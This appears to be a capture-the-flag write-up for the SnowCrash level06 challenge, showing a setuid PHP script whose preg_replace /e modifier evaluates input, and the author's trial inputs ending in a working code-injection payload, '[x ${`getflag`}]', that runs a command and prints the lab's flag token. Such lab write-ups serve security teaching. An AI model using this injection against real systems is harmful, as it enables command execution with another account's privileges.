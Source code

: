 # Flag 06
-
``` shell
ls -al
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*
```

- `cat level06` -> 
- `strings level06`

- ` ./level06`
`PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4`

- `cat level06.php`
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```


```php
#!/usr/bin/php
<?php
  function y($m) { 
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m; 
  }

  function x($y, $z) { 
    $a = file_get_contents($y); 
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
    $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a); 
    return $a; 
  }

  $r = x($argv[1], $argv[2]); 
  print $r;
?>
```

- try to exec level06 script
`./level06 level06.php`
show content of the level06.php

- more tries

``` shell
echo "aaa" > /tmp/aaa
level06@SnowCrash:~$ ./level06 /tmp/aaa
aaa

level06@SnowCrash:~$ echo "`ls`" > /tmp/aaa
level06@SnowCrash:~$ ./level06 /tmp/aaa
level06
level06.php
```
- Goooood, so we can pass a cmd with baskticks and that the level06 script can exec it
``` shell
level06@SnowCrash:~$ echo "`getflag`" > /tmp/aaa
level06@SnowCrash:~$ ./level06 /tmp/aaa
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
level06@SnowCrash:~$ echo "`getflag`" > /tmp/aaa
level06@SnowCrash:~$ ./level06 /tmp/aaa
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
level06@SnowCrash:~$ echo "${`getflag`}" > /tmp/aaa
-bash: ${`getflag`}: bad substitution
level06@SnowCrash:~$ echo '${`getflag`}' > /tmp/aaa
level06@SnowCrash:~$ ./level06 /tmp/aaa
${`getflag`}
level06@SnowCrash:~$ echo 'x ${`getflag`}' > /tmp/aaa
level06@SnowCrash:~$ ./level06 /tmp/aaa
x ${`getflag`}
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/aaa
level06@SnowCrash:~$ ./level06 /tmp/aaa
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

- after some tests we are the flag now `wiok45aaoguiboiki2tuin6ub`

